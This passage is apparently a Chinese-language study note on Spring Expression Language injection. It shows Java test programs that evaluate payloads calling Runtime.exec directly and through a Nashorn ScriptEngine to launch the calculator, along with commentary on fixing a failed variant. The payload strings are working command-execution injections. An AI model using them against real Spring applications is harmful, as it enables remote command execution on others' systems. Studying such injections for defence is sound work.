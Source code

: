 ```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.Runtime).getRuntime().exec('calc')";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

什么？还有高手！拉满了真的拉满了，Runtime居然只需要直接用T表达式就可以命令执行？！拉满了！  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691249594867-ec5ff8e3-9a73-4ba7-b848-45572e9e4300.png#averageHue=%232a2b28&clientId=u39a47a36-8eef-4&from=paste&height=702&id=u515ed048&originHeight=877&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1954232&status=done&style=none&taskId=ue4afc84d-0a3e-4c31-bdb5-9d57e75279a&title=&width=1536)

ScriptEngine
------------

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691249783662-c2ef196c-742d-413d-b26f-1fba6483b071.png#averageHue=%232c2e2e&clientId=u39a47a36-8eef-4&from=paste&height=753&id=u967c1164&originHeight=941&originWidth=1879&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2333676&status=done&style=none&taskId=u30b75074-74ce-457f-bdb7-b738a5e4317&title=&width=1503.2)  
什么？居然报错了，不行大脑已经短路了，容不得我思考。哦！原来是static，因为getEngineByName不是static方法，阴间狡诈，那我们怎么办！

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```